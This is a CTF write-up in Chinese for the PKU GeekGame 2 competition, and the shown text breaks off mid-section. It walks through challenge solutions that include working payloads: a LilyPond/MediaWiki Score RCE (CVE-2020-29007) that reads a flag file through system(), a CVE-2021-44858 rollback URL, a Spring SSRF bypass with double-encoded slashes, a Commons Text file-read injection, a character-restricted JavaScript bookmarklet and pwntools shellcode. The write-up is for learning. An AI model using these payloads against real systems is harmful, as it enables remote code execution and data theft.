# PKU GeekGame 2 Writeup

比赛网站: https://geekgame.pku.edu.cn/

用户名: std::_Rb_tree

排名: 6


# 编原译理习题课

## Flag 1: 让 g++ 编译出的程序超过 8MB

#### 方法1: 让 `.data` 非常大

```c++
int arr[1 << 24] = { 1, 1, 4, 5, 1, 4 };
int main() { }
//EOF
```

注意数组要初始化, 否则会被编译成 `.bss` 段中的未初始化数据, 在 ELF 中不占空间.

#### 方法2: 让 `.text` 非常大

用宏或 template 的多层嵌套使得编译出的代码段非常大即可, 但由于编译时间的限制, 这种方法只在本地测试成功过, 在加上 google 一搜一大堆, 所有就不贴具体代码了.

## Flag 2: 让 g++ 输出的报错信息超过 2MB

随便 `#include` 一个非常长的文件即可, binary 也行, 甚至可以 `#include </bin/g++>`. 但注意不要 `#include </dev/random>`  否则啥也出不来.

## Flag 3: 让 g++ 因为段错误而崩溃

谷歌题, 搜一下就有:

https://www.google.com/search?q=g%2B%2B+%22internal+compiler+error%3A+Segmentation+fault%22+site%3Agcc.gnu.org

2020年之后的挨个试一下, 很容易就能试出来


# Flag Checker

提示: IDEA 可以直接反编译 jar 包

## Flag 1

flag1 是用 rot13 加密的, 直接建个映射把它反过来就行.

```java
static String CHAR_DICT = 
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";

static void flag1() {
    Map<Character, Character> inverseRot13 = new HashMap<>();
    CHAR_DICT.chars().forEachOrdered(
        value -> inverseRot13.put(rot13Char((char) value), (char) value)
    );
    String flagEncoded = "MzkuM8gmZJ6jZJHgnaMuqy4lMKM4".chars()
        .mapToObj(value -> inverseRot13.get((char) value).toString())
        .collect(Collectors.joining(""));
    System.out.println(new String(Base64.getDecoder().decode(flagEncoded)));
}
```

## Flag 2

观察这部分代码, 可以看出是创建了一个 js 执行引擎并执行了一段脚本:

```java
ScriptEngineManager scriptEngineManager = new ScriptEngineManager();
ScriptEngine scriptEngine = scriptEngineManager.getEngineByName("nashorn");
try {
    // Decode the script
    String codeDataStr = "\u0089\u009a\u0081...";
    StringBuilder stringBuilder = new StringBuilder();
    for (int i = 0; i < codeDataStr.length(); ++i) {
        stringBuilder.append((char) (codeDataStr.charAt(i) ^ 239));
    }
    // Execute the script
    scriptEngine.eval(stringBuilder.toString());
} catch (Exception e) { 
    ... 
}
```

我们把这段脚本打印出来发现是这样的

```js
"function checkflag2(_0xa83ex2){var _0x724b=['charCodeAt','map','','split','stringify','Correct','Wrong','j-'];return (JSON[_0x724b[4]](_0xa83ex2[_0x724b[3]](_0x724b[2])[_0x724b[1]](function(_0xa83ex3){return _0xa83ex3[_0x724b[0]](0)}))== JSON[_0x724b[4]]([0,15,16,17,30,105,16,31,16,67,3,33,5,60,4,106,6,41,0,1,67,3,16,4,6,33,232][_0x724b[1]](function(_0xa83ex3){return (checkflag2+ _0x724b[2])[_0x724b[0]](_0xa83ex3)}))?_0x724b[5]:_0x724b[6])}\n"
```

再简单地 format 并反混淆一下:

```js
function checkflag2(flag) {
    const INDEXES = [
        0, 15, 16, 17, 30, 105, 16, 31, 16, 67, 3, 33, 5, 60, 4, 106, 6, 41, 0,
        1, 67, 3, 16, 4, 6, 33, 232,
    ];

    let lhs = JSON.stringify(
        flag.split("").map(function (str) {
          return str.charCodeAt(0);
        })
    );

    let rhs = JSON.stringify(
        INDEXES.map(function (str) {
          return (checkflag2 + "").charCodeAt(str);
        })
    );
    
    return lhs == rhs ? "Correct" : "Wrong";
}
```

重点在于这里:

```js
(checkflag2 + "").charCodeAt(str);
```

没见过这种写法的可以在浏览器的 console 里跑一下. 不难发现 `(checkflag2 + "")`就是这个函数代码的字符串本身. 再之后就很好解了:

```java
String codeDataStr = "\u0089\u009a\u0081...";
StringBuilder stringBuilder = new StringBuilder();
for (int i = 0; i < codeDataStr.length(); ++i) {
    stringBuilder.append((char) (codeDataStr.charAt(i) ^ 239));
}
String code = stringBuilder.toString();
char[] indexes = {0, 15, 16, 17, 30, ...};
for (int i : indexes) {
    System.out.print(code.charAt(i));
}
```


# 智慧检测器

## Flag 1: 让游戏崩溃

问题出在 422 行 `CurPos = NewPos` 这里, 想不明白的可以把这两个 object 打印一下:

```
Map:
    #######
    #     #
    #   X #
    E   X #
    # X X #
    #    @#
    #######

Input: NSS

Output:
    CurPos(7ff25bff7940) = [0, 5, 5], NewPos(7ff25c12d200) = [0, 4, 5], stand_on = ' '
    CurPos(7ff25c12d200) = [0, 5, 5], NewPos(7ff25c12d200) = [0, 5, 5], stand_on = ' '
    CurPos(7ff25c12d200) = [0, 6, 5], NewPos(7ff25c12d200) = [0, 6, 5], stand_on = '#'
    Invalid Direction
```

我们发现: CurPos 在第执行完第二步时已经变成 CurPos 了, 因为 `CurPos = NewPos` 仅作了引用拷贝 (浅拷贝), 没作实际内存的拷贝 (深拷贝). 而要想让游戏崩溃只需要在第三维度上做同样的事情 (因为 x, y 轴走到墙上就动不了了), 将第三维修改为最大层数 + 1 即可 (-1 不行, 会穿越到倒数第一层).


# 企鹅文档

### Step 1:

分析 http 请求发现 opendoc 请求是获取文档内容的, 但要注意 url 中的 startrow 和 endrow 要修改一下.



### Step 2:

使用 chrome 分析 har 文件, 搜索关键字, 不难发现 flag 在 `dop-api/get/sheet` 请求里:



找到 json 文本中对应的内容, 用 python 打印一下再稍加格式化, 就有了:




# 给钱不要！

## Flag 2

大体思路是通过 `location.href =`  通过 bookmarklet 执行一段 javascript 代码, 但这段 js bookmarklet 不能被 chrome 识别为 url. 
若不管 chrome 事, 通过下面一行代码就可以达到我们想要的效果:

```js
document.title = document.getElementsByClassName('flag')[0].textContent;
```

剩下的问题就是如何不让 chrome 把这个 bookmarklet 当作一个 url 了.

阅读 chrome 源码, 可以发现 `javascript:` 后面若有 `^;=().\"` 这些字符就会被当作 url:

```c++
// Treat javascript: scheme queries followed by things that are unlikely to
// be code as UNKNOWN, rather than script to execute (URL).
if (RE2::FullMatch(base::UTF16ToUTF8(text), "(?i)javascript:([^;=().\"]*)")) {
    return metrics::OmniboxInputType::UNKNOWN;
}
```

因此, 我们需要编写一段不带上述这些符号的 js 代码.

首先我想到了 jsfuck, 但 jsfuck 是有 `()` 的, 所以去搜了一下 ["jsfuck without parentheses"](https://www.google.com/search?q=jsfuck+without+parenthese), 发现还真有[这种东西](https://github.com/centime/jsfsck), 叫 jsf$ck (乐). 但这种东西的最大问题就是编码长度甚至会超过 [document.location 的最大长度 ](https://stackoverflow.com/questions/417142/what-is-the-maximum-length-of-a-url-in-different-browsers) (想卡这个玩意连长度检查都用不着). 虽然用不了, 但我们可以尝试利用其中的部分编码原理.

我们还是通过那一堆会被 chrome 卡的字符入手:

对于 `^;\` 都好说, 因为正常的 js 代码本来就用它们用的不多, 而 `"` 也有其替代品. 

对于 `.` 来说, 我们只要用 `foo['bar']` 替代 `foo.bar` 即可. 

对于 `=` 而言, 我们虽然可以通过 base64 编码后先 `atob` 再 `eval` 来绕过, 但是这又会引入 `()`, 因此还需要分析 `()` 的处理方法.

对于 `()` , 有一个冷知识就是参数部分单参数函数的调用可以用 <code>\`</code> 替代, 比如 `alert(1)` 可以写成 <code>alert\`1\`</code> 但是也有反例, 比如 `eval` 就是: <code>eval\`1 + 1\`</code> 得到的结果是 `['1 + 1', raw: Array(1)]`, 具体原因我个人也没有仔细研究过. 不过通过阅读 jsf$ck 源码能够发现, 可以使用 <code>\[\]\['fill'\]['constructor']\`\$\${ ... }\$\`\`\`</code> 替代 `eval` 执行代码.

结合以上几点, 构造出一个合法的 payload 就不是太难了:

```
javascript:[]['fill']['constructor']`$${'document' + String['fromCharCode']`46` + 'title' + String['fromCharCode']`61` + 'document' + String['fromCharCode']`46` + 'getElementsByClassName' + String['fromCharCode']`96` + 'flag' + String['fromCharCode']`96` + '[0]' + String['fromCharCode']`46` + 'textContent' + String['fromCharCode']`59`}$```
```


# 私有笔记

## Flag 1

首先通过 google 搜索 mediawiki cve-2020 和 cve-2021 可以发现, 能利用的就那么几个, 挨个试一试就可以. 可以参考以下网页:

https://www.mediawiki.org/wiki/2021-12_security_release/FAQ

https://www.cve.org/CVERecord?id=CVE-2021-44858

https://phabricator.wikimedia.org/T297574

最后获取 flag 的 url 为:

https://prob07-lrmazl2i.geekgame.pku.edu.cn/index.php/?action=rollback&from={{:Flag}}

## Flag 2

查看版本页面可以发现其只安装了 Score 插件, 且 Score 插件版本是 2019 年的, 同时提示我们该插件跟 LilyPond 有关, 我们搜索相关资料可以找到 [CVE-2020-29007](https://phabricator.wikimedia.org/T257062). 根据描述和测试, 我们可以通过一个 `<score>` 标签进行 RCE, 但是没有输出, 能得到的信息只有一个返回值乘以 256 的结果.

例如, 使用

```html
<score lang="lilypond">\new Staff <<{c^#
  (number->string (system "return 233"))
}>></score>
```

将会输出

我们可以通过将 flag 逐字节编码进返回值的方法分多次读取, payload 如下 (将 `x` 替换成要读取的字节):

```html
<score lang="lilypond">\new Staff <<{c^#
  (number->string (
     system "return $(printf %d $(cat /flag2 | cut -b x | tr -d '\n' | od -An -t uC))"
  ))
}>></score>
```




# 企业级理解

## Flag 1: 绕过登录页面访问管理后台

Spring 的结尾斜杠问题算是老生常谈了, 写过 Spring (boot) 的很多都踩过这个坑 (还有就是蛋疼的跨域问题). 问题出在源码的第 40 行:

```java
strictHttpFirewall.setAllowBackSlash(true);
```

## Flag 2: 访问本机上的 bonus 服务

阅读 8079 端口服务的源码我们发现它会通过一个 `WebClient` 向 8080 发 post 请求, 并且 80 端口的服务会允许经过 url 编码的 `/` 和 `//`:

```java
strictHttpFirewall.setAllowUrlEncodedSlash(true);
strictHttpFirewall.setAllowUrlEncodedDoubleSlash(true);
```

并且 8079 端口的服务会进行 urlDecode, 因此直接将 `http://127.0.0.1:8080` 进行二次编码 (`/` -> `%2f` -> `%252f`) 即可:

https://prob08-iwrahf67.geekgame.pku.edu.cn/admin/http%3A%252f%252f127.0.0.1%3A8080%252fbonus

(这一问一开始老是想着构造 `redirect:http://127.0.0.1:8080`, 忘了是 `WebClient` 来处理请求不应该加 `redirect:` 导致卡了好久)

## Flag 3: 通过 bonus 服务在机器上执行命令

这一问就容易很多了, 毕竟能拿到源码, 这一行已经是贴脸告诉你要去搜什么东西了

```java
if (queryBean.getType().equals("CommonsText")) {
```

而且 google 搜出来的第一篇文章就包含 `${file:utf-8:/etc/passwd}` (至少截至 2022 年 11 月 24 号在我这里是). 于是构造出 url 就可以解了:

https://prob08-iwrahf67.geekgame.pku.edu.cn/admin/http%3A%252f%252f127.0.0.1%3A8080%252fbonus/?type=CommonsText&value=%24%7Bfile%3Autf-8%3A%2Froot%2Fflag3.txt%7D


# 这也能卷

## Flag 1

(本场拿得唯一一个一血, 然后后两问就真的摆大烂了 Doge)

web 前端题拿到之后首先就是 `grep -Ri "flag"`, 发现这么一坨: 

```javascript
const flag0 =
  _0x340c07(0x65d, "aIlf", 0x554, 0x7bc, 0x7c0) +
  _0x340c07(0x522, "mxb3", 0x41a, 0x61d, 0x5ed) +
  _0x476726("Zml(", 0x605, 0x57c, 0x6a1, 0x5a5) +
  _0x476726("UwsG", 0x5d6, 0x5c1, 0x500, 0x601) +
  _0x5e5705("mmNu", 0x1d0, 0x354, 0x339, 0x1d1) +
  _0x476726("][gJ", 0x3b3, 0x4c7, 0x43a, 0x401);
```

抱着试一试的态度把这一坨贴到 console 里. 叮! flag 就出来了.


# 简单题

如果把这题看作一道没有开 NX 保护的 pwn 题, 那它就真的是一道简单题了. 如果你要做一道不开 NX 的 pwn 题, 那么你要做的就是: 1. 把 shellcode 写入内存; 2. 让 `rip` 寄存器指向你的 shellcode. 

因此, 我们只需要通过这段汇编把一段 shellcode 写入内存, 并且要使得在执行完这段写内存的代码之后, `rip` 刚好指向我们刚刚写入内存的起始地址. 至于不知道 mmap 之后的起始地址, 既然给了elf 了, debug 一下就知道了. (如图, mmap 后的起始地址储存在 `rdx` 寄存器中)



构造 payload 的代码如下:

```python
context.arch = 'amd64'
real_shellcode = asm(shellcraft.amd64.cat('/flag.txt'))
shellcode = ""
instr_len = len(asm("mov byte ptr [rdx + 0x20], 0x10"))
for i, x in enumerate(real_shellcode):
    offset = hex(len(real_shellcode) * instr_len + i)
    shellcode += f"mov byte ptr [rdx + {offset}], {hex(x)}\n"
shellcode = asm(shellcode)
assert len(shellcode) == len(real_shellcode) * instr_len
```

构造出来就是一堆 `mov`, 逐字节写入真正的 shellcode

```
   0:   c6 82 1f 01 00 00 6a    mov    BYTE PTR [rdx+0x11f], 0x6a
   7:   c6 82 20 01 00 00 74    mov    BYTE PTR [rdx+0x120], 0x74
   e:   c6 82 21 01 00 00 48    mov    BYTE PTR [rdx+0x121], 0x48
  15:   c6 82 22 01 00 00 b8    mov    BYTE PTR [rdx+0x122], 0xb8
  1c:   c6 82 23 01 00 00 2f    mov    BYTE PTR [rdx+0x123], 0x2f
  23:   c6 82 24 01 00 00 66    mov    BYTE PTR [rdx+0x124], 0x66
    ...
 118:   c6 82 47 01 00 00 05    mov    BYTE PTR [rdx+0x147], 0x5
```


# TTOWRSS

直到做出来才明白这道题题目的意思是 "towards" (话说题目要是叫 "SDRAWOT" 会不会做出来的人更多呢 doge).

拿到 elf 之后先用 BinaryNinja 整体看一下 (这方面 BinaryNinja 确实比 IDA 和 Ghidra 方便很多), 发现主函数就是一个递归, 里面没啥东西, 但是 `.init_array` 里有两个函数 (注: `.init_array` 里的东西会在主函数之前执行), 其中一个是 `frame_dummy`, 这个我们不关心, 另外一个是位于 `0x10b0` 位置的一个函数.





`sub_10b0` 这里 BinaryNinja 反编译的还是多少有点乱, 我们还是拖到 IDA 里 F5 一下看看:

```c
unsigned __int64 sub_10B0()
{
    unsigned __int64 v0; // kr00_8
    struct sigaction sa; // [rsp+8h] [rbp-A8h] BYREF
    unsigned __int64 v3; // [rsp+A0h] [rbp-10h]

    v3 = __readfsqword(0x28u); // 读取 canary, 忽略即可
    memset(&sa.sa_mask, 0, 0x90uLL);
    sa.sa_flags = 4;
    sa.sa_handler = (__sighandler_t)sub_12D0;
    if ( sigaction(5, &sa, 0LL) < 0 )
        abort();
    v0 = __readeflags();
    __writeeflags(v0 ^ 0x100);
    return __readfsqword(0x28u) ^ v3; // 检测 canary, 忽略即可
}
```

不难注意到 `sigaction(5, &sa, 0LL)`  这里注册了个 SIGTRAP 的处理函数, 一开始因为没看到这个 elf 里有 [`int3` 指令](https://en.wikipedia.org/wiki/INT_(x86_instruction)#INT3), 于是以为这单纯就是个反调试手段就没当回事. 直到第二阶段提示放出才注意到 eflags 寄存器中的 [TrapFlag](https://en.wikipedia.org/wiki/Trap_flag) 被改写了. 因此, 这里注册的 SIGTRAP 处理函数**可以充当 debugger 搞一些事情**. 

我们还是一行一行地来说. 首先对于这个 `sigaction` 结构体和 `sigaction` 函数很多人可能并不熟悉, 这是因为我们注册信号时通常使用的是封装过的 `signal` 函数, 而很少有人看过 signal 函数的实现. 这里我们放一下 sigaction 结构体的定义:

```c
struct sigaction {
    void     (*sa_handler)(int);
    void     (*sa_sigaction)(int, siginfo_t *, void *);
    sigset_t   sa_mask;
    int        sa_flags;
    void     (*sa_restorer)(void);
};
```

第一个 `void (*sa_handler)(int)` 其实就是我们平时用 `signal` 函数注册的普通 signal handler 的函数指针, 而第二个 `void (*sa_sigaction)(int, siginfo_t *, void *)` 则是更高级的 sigaction 的函数指针. 说它高级主要是因为它除了可以接受一个信号 id 之外还可以接受另外两个参数. 这两个参数其中一个是 `siginfo_t*`, 这道题没有用到, 另一个是 `void*`, 本题中这里传入的其实是一个 `ucontext_t*` (这个东西是啥我们待会再说). 接下来是 `sa_mask`, 在这里的作用是确保注册的 `sa_sigaction` 函数在执行时会阻塞主线程. 然后就是 `sa_flag`, 这里把它设为了 4, 也就是 `SA_SIGINFO`, 这个 flag 作用是让调用信号处理函数的时候使用那个 3 个参数的 `sa_sigaction`, 而不是一个参数的 `sa_handler`. 最后一个 `sa_restorer` 这里我们并不关系, 想了解的话可以去读相关文档. 另外这篇 wp 的最后也贴了 sigaction 的文档中部分有用的信息, 可以拉到最后看. 

回到 `sub_10b0` 这里 (`sigaction` 终于说完了 QwQ), 最后将 eflag 寄存器中的 TrapFlag 位改成了 1, 也就意味着每执行一条指令就会向自身进程发出一个 SIGTRAP. 这也就会导致每执行一条指令, SIGTRAP 处理函数就会被调用一次.

看完 `sub_10b0` 之后我们就可以去看一下这个信号处理函数 (`sub_12d0`) 到底搞了什么幺蛾子:



这里我们还是用伪代码和 C 对比着看吧:

